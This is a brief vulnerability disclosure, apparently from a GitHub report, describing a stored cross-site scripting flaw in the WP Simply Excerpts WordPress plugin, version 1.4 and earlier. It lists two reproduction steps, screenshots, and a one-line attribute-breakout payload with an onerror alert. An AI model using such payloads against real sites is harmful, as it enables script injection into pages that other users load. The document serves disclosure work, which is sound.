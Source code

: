 Cross-Site Scripting (XSS) vulnerability in WP Simply Excerpts Plugin <= 1.4 at WordPress.

[![pPryDgK.png](https://s1.ax1x.com/2023/09/05/pPryDgK.png)](https://imgse.com/i/pPryDgK)
 - [ ] STEPS:
	1.After installing the plugin, click Simply Excerpts Settings.
[![pPryyuD.png](https://s1.ax1x.com/2023/09/05/pPryyuD.png)](https://imgse.com/i/pPryyuD)
 - [ ] 
 	2.Put poc in Message text then click Update
	POC：

	```
	1"><img src=1 onerror=alert(/xss/)>
	```
[![pPryrjO.png](https://s1.ax1x.com/2023/09/05/pPryrjO.png)](https://imgse.com/i/pPryrjO)
Then XSS vulnerability triggered
[![pPry6De.png](https://s1.ax1x.com/2023/09/05/pPry6De.png)](https://imgse.com/i/pPry6De)
[![pPry2Ed.png](https://s1.ax1x.com/2023/09/05/pPry2Ed.png)](https://imgse.com/i/pPry2Ed)